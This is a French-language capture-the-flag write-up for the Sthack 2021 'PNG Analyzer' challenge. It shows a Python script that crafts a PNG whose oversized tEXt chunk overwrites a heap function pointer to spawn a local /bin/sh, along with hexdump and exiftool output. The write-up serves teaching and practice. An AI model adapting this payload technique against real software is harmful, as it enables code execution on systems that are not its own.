 ```yaml
---
title: PWN - PNG Analyzer
category: Sthack2021
author: vaelio
tags:
- sthack2021
- pwn
- ctf
description: "Writeup Sthack 2021 - PNG Analyzer - PWN"
---
```

Introduction
===
Pour ce challenge il faut d'abord réussir à télécharger le binaire à exploiter. 
Lorsqu'on se connecte à l'index du site on peut remarquer que le site tente de charger http://dev.img.local/troll.png. 
Or ce nom de domaine ne résouds pas. C'est notre hint. Ici on va simplement éditer notre `/etc/hosts` afin de faire pointer localement le nom de domaine vers l'ip originale.
A partir de là, dans le dossier upload, on peut trouver le binaire `png_analyzer`

Voila les info du programme:

```
~ 
❯ file ./Downloads/png_analyzer
./Downloads/png_analyzer: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=94ea393d939b2f7e83e650bbe1206da5a834e15e, for GNU/Linux 3.2.0, not stripped

~ 
❯ checksec ./Downloads/png_analyzer
[*] '/home/user/Downloads/png_analyzer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

TL;DR
===
En résumé le programme va prendre en argument un fichier à analyser, vérfier que le fichier est bien un PNG, va ensuite analyser chaque bloc de donnée du PNG et affichera les meta donnée de tous les blocs de type `tEXt` avant de finir par exécuter la fonction `do_nothing` avec en paramètre le titre du bloc.

Par exemple, si nous avons dans notre PNG un bloc de type `tEXt` dont le titre est `Comment` alors le programme exécutera `do_nothing("Comment")`. La preuve en image:

![]({{site.url}}/static/upload_4a219d9ebbc5642622f99991aeacddb1.png)

Exploitation
===
Lorsqu'on reverse le binaire une chose nous saute aux yeux, le pointer vers `do_nothing` est stocké pour chaque bloc d'information dans le chunk qui lui est associé dans la `heap`.

![]({{site.url}}/static/upload_14379e33db0d981f8667232307814ae2.png)

Voici, en pseudocode, la fonction `parse_chunk` qui parse les fameux bloc PNG:


![]({{site.url}}/static/upload_5a14c7c981fb9ec115bd91481ce42059.png)

On peut remarquer que l'écriture du pointer vers `do_nothing` se fait avant le `memcpy`. 

On constate également que le programme va chercher le pointer vers `do_nothing` avant de l'exécuter:
![]({{site.url}}/static/upload_8ae580cbfd8fc90299c540388bbf84e2.png)

**Bingo !** Il suffit donc que notre chunk puisse réécrire ce pointer.

En conclusion, il faut donc:
- que notre fichier soit un PNG
- que notre fichier contienne une donnée EXIF de type `tEXt` (par exemple Comment)
- que la valeur de cette donnée réécrive le pointeur vers `do_nothing`
- que rien ne crash :D

Voilà rapidement un petit script assez moche permettant d'obtenir un fichier qui nous donnera un shell local:

```Python
#!/bin/env python3

from struct import pack
from os import system
import png


def mkImg():
    i = []
    for x in range(21):
        i.append([0,0,0,0])
    png.from_array(i, 'L').save("/tmp/test")
    buf = 'A'*0x1ffc + pack('<Q', 0x401160)
    with open('/tmp/buf', "w") as fd:
        fd.write(buf)
    system("exiftool -Comment=$(cat /tmp/buf) /tmp/test")
    with open("/tmp/test", "rb") as fd:
        content = fd.read()
    return content


def w(data):
    with open("/tmp/f", "wb") as fd:
        fd.write(data)



def main():
    data = mkImg()
    data = data[:41] + "/bin/sh\x00" + data[49:]
    w(data)



if __name__ == '__main__':
    main()


```


En bonus, un petit hexdump du fichier final et un exiftool
```
~
❯ hexdump -C /tmp/f
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 04 00 00 00 15  08 00 00 00 00 44 10 10  |.............D..|
00000020  9c 00 00 20 07 74 45 58  74 2f 62 69 6e 2f 73 68  |... .tEXt/bin/sh|
00000030  00 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |.AAAAAAAAAAAAAAA|
00000040  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
*
00002020  41 41 41 41 41 41 41 41  41 41 41 41 41 60 11 40  |AAAAAAAAAAAAA`.@|
00002030  76 b8 6c 27 00 00 00 0c  49 44 41 54 78 9c 63 60  |v.l'....IDATx.c`|
00002040  a0 13 00 00 00 69 00 01  11 3e ed a7 00 00 00 00  |.....i...>......|
00002050  49 45 4e 44 ae 42 60 82                           |IEND.B`.|
00002058
```

```
~
❯ exiftool /tmp/f
ExifTool Version Number         : 12.30
File Name                       : f
Directory                       : /tmp
File Size                       : 8.1 KiB
File Modification Date/Time     : 2021:10:18 12:29:49+02:00
File Access Date/Time           : 2021:10:18 17:04:07+02:00
File Inode Change Date/Time     : 2021:10:18 12:29:49+02:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 4
Image Height                    : 21
Bit Depth                       : 8
Color Type                      : Grayscale
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Binsh                           : AAAA[REDACTED]AAAA`.@
Image Size                      : 4x21
Megapixels                      : 0.000084
```

Conclusion
===
Un petit challenge plutot simple mais intéressant :+1: 
